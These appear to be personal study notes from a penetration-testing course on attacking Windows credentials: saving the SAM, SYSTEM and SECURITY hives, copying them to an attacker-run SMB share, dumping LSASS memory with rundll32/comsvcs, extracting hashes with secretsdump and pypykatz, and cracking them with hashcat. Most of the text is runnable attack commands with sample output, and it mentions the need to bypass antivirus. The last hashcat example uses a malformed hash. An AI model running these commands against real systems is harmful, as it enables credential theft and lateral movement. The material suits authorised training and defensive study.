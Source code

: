 # Attacking SAM

- hklm\sam : Contains the hashes associated with local account passwords. 
We will need the hashes so that we can crack them offline and get the user account passwords.

- hklm\system : Contains the system bootkey, which is used to encrypt the SAM database. 
We will need the bootkey to decrypt the SAM database.

- hklm\security : Contains cached credentials for domain accounts. 
We may benefit from having this on a domain-joined Windows target.

When a user attempts to log on locally to the system by entering a username and password in the login dialog box, 
the login process invokes the LSA, which passes the user's credentials to the `Security Accounts Manager (SAM)`, 
which manages the account information stored in the local SAM database. 

IN addition to getting coppies of the SAM database to dump and crack hashes, we will also benefit from targeting 
LSASS. As discussed in the `Credential Storage` section of this module, LSASS is a critical service that plays a 
central role in credential management and the authentication process in all Windows operating systems.

Upon initial login, LSASS will:

	- Cache credentials locally in memory
	- Create Access Tokens
	- Enforce security policies
	- Write to Windows security log

## Using Reg.exe to save a Copy of Registry Hives

```
C:\WINDOWS\System32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\System32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\System32> reg.exe save hklm\security C:\security.save
```

### Creating a share with smbserver.py

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/MrBob/Documents
```

```
C:\> move sam.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security 
security.save LOCAL

sudo hashcat -m 1000 secrets.txt /usr/share/wordlists/rockyou.txt
```

## Remote Dumping & LSA Secrets Considerations

```bash
crackmapexec smb 10.129.42.198 --local-auth -u Bob -p p@ssw0rd123! --lsa
crackmapexec smb 10.129.42.198 --local-auth -u Bob -p p@ssw0rd123! --sam
```

# Dumping LSASS Process Memory

## Task Manager Method

> Task Manager -> Processes -> Local Security Authority Process -> Create Dump File

A file named `lsass.DMP` will appear and be saved in `C:\Users\user's directory\AppData\Local\Temp`

## Rundll32.exe & Comsvcs.dll Method

The Task manager is dependent on us having GUI.... We can use `Rundll32` and `Comsvcs` in order to perform this 
from PowerShell or CMD:

```
tasklist /svc in CMD OR Get-Process lsass in PowerShell
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump <lsass ID> C:\lsass.dmp full
```

MiniDump is `the MiniDumpWriteDump` function, being called to dump the LSASS process memory to a specified 
directory. Most modern AV tools recognize this as malicious and prevent the command from executing. 

We will need to consider ways to bypass or disable the AV tool we are facing. AV bypassing techniques are outside 
of the scope of this module.

If we are successful, however, we can proceed to transfer the file to our attack box and attempt to extract any 
credentials that may have been stored in LSASS memory.

## Running Pypykatz to Extract Credentials

Once we have the dump, we can use `pypykatz` to attempt extraction.

```bash
pypykatz lsa minidump /home/lemur/Documents/lsass.dump

sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

## WDIGEST

WINDIGEST is an older authentication protocol enabled by default in Windows XP, 8 and Windows Server 2003-2012. 

LSASS caches credentials used by WDIGEST in clear-text. This means if we find ourselves targeting a system with 
WDIGEST enabled, we will most likely see a password in the clear.

## MSV

`MSV` is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM 
database. Pypykatz extracted the SID, the Username, the Domain/Hostname and even the NT & SHA1 password hashes 
associated with Bob's account logon session stored in LSASS Process memory. This will prove helpful in the final 
stage of our attack covered at the end of this section.

We have something called `Protected Users Group` as well. It can be read about in this Microsoft documentation: 
https://msrc-blog.microsoft.com/2014/06/05/an-overview-of-kb2871997/

## Kerberos

Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments. 
Domain user accounts are granted tickets upon authentication with AD. This ticket is used to allow the user to 
access shared resources on the network that they have been granted access to without needing to type in their 
password each time. LSASS caches `passwords, ekeys, tickets and pins` associated with Kerberos. It's possible to 
extract these from LSASS process memory and use them to access other systems joined to the domain.

## DPAPI

The Data Protection Application Programing Interface (DPAPI) is a set of APIs in Windows operating systems used to 
encrypt and decrypt DPAPI data blobs on a per-user bnasis for Windows OS features and various third-party 
applications. Here are just a few examples of applications that use DPAPI and what they're used for:

- Internet Explorer : Password form auto-completion
- Google Chrome : Password form auto-completion
- Outlook : Passwords for email accounts
- Remote Desktop Connection : Saved credentials for remote connections
- Credential Manager : Saved credentials for accessing shared resources, joining wireless networks, VPNs and 
more..

Mimikatz and Pypykatz can extract the DPAPI masterkey for the logged-on user whose data is present in LSASS 
process memory. This masterkey can then be used to decrypt the secrets associated with each of the applications 
using DPAPI and result in the capturing of credentials for various accounts. DPAPI attack techniques are covered 
in greater detail in the Windows Privilege Escalation module.

## Cracking the NT hash with Hashcat

```bash
sudo hashcat -m 1000 4783jfhh3854773983f00sf0 /usr/share/wordlists/rockyou.txt
```
